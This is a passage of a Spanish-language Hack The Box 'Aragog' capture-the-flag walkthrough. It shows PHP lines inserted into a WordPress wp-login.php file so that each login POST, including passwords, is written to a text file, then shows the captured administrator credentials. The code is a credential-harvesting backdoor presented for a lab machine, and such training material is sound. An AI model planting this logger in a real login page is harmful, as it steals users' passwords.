 ![""](/assets/images/htb-aragog/aragog_wordpress.png)

Con lo que tenemos, podemos pensar que el programa `/home/cliff/wp-login.py` se está autenticando el el portal de login de wordPress y como tenemos permisos para modificar los archivos encontrado en `dev_wiki`, podemos obtener las crenciales de login agregando las siguientes líneas en el archivo `wp-login.php` (Nota: Hay que hacerlo rápido porque tenemos que recordar que se restablecen los archivos de dicho directorio debido al script `restore.sh` ejecutado por el usuario **root**).

```bash
require( dirname(__FILE__) . '/wp-load.php' );

$file='datos_login.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

Con lo anterior, se crea un archivo de nombre `datos_login.txt` cuando se intenta autenticar en el panel de login de WordPress. Para ver cuando el archivo se haya creado, monitoreamos el contenido de la carpeta con:

```bash
florian@aragog:/var/www/html/dev_wiki$ watch -n 1 ls -l
```

Vemos rápidamente el contenido del archivo `datos_login.txt`:

```bash
florian@aragog:/var/www/html/dev_wiki$ cat datos_login.txt
Array
(
    [pwd] => !KRgYs(JFO!&MTr)lf
    [wp-submit] => Log In
    [testcookie] => 1
    [log] => Administrator
    [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
)
florian@aragog:/var/www/html/dev_wiki$
```
